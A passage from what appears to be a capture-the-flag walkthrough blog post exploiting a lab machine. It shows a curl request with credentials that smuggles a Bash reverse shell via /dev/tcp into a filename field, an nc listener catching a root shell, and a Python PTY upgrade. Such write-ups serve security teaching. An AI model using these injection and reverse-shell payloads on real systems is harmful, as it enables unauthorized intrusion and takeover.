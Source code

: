 <p>I get the ping at <code class="language-plaintext highlighter-rouge">tcpdump</code>:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span><span class="nb">sudo </span>tcpdump <span class="nt">-ni</span> tun0 icmp
<span class="go">tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:48:37.119550 IP 10.10.10.235 &gt; 10.10.14.7: ICMP echo request, id 19, seq 1, length 64
13:48:37.119585 IP 10.10.14.7 &gt; 10.10.10.235: ICMP echo reply, id 19, seq 1, length 64
</span></code></pre></div></div>

<p>That’s remote code execution (RCE).</p>

<h4 id="shell">Shell</h4>

<p>I’ll swap out the <code class="language-plaintext highlighter-rouge">ping</code> with a Bash reverse shell. It took a couple tries to get the quotes right, but on running this:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>curl <span class="nt">-X</span> POST http://10.10.10.235:31337/upload <span class="nt">-H</span> <span class="s1">'Content-Type: application/json'</span> <span class="nt">-d</span> <span class="s1">'{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash &gt;&amp; /dev/tcp/10.10.14.7/443 0&gt;&amp;1\""}'</span>
<span class="go">{"ok":true,"Uploaded_File":"x; bash -c \"bash &gt;&amp; /dev/tcp/10.10.14.7/443 0&gt;&amp;1\""}
</span></code></pre></div></div>

<p>A shell returned at <code class="language-plaintext highlighter-rouge">nc</code>:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>nc <span class="nt">-lnvp</span> 443
<span class="go">listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.235] 40804
id
uid=0(root) gid=0(root) groups=0(root)
</span></code></pre></div></div>

<p>Python is on the box, so I can get a full PTY:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>which python
/usr/bin/python
python -c 'import pty;pty.spawn("bash")'
root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# 
</code></pre></div></div>

<p>There’s also <code class="language-plaintext highlighter-rouge">user.txt</code> in <code class="language-plaintext highlighter-rouge">/root</code>:</p>
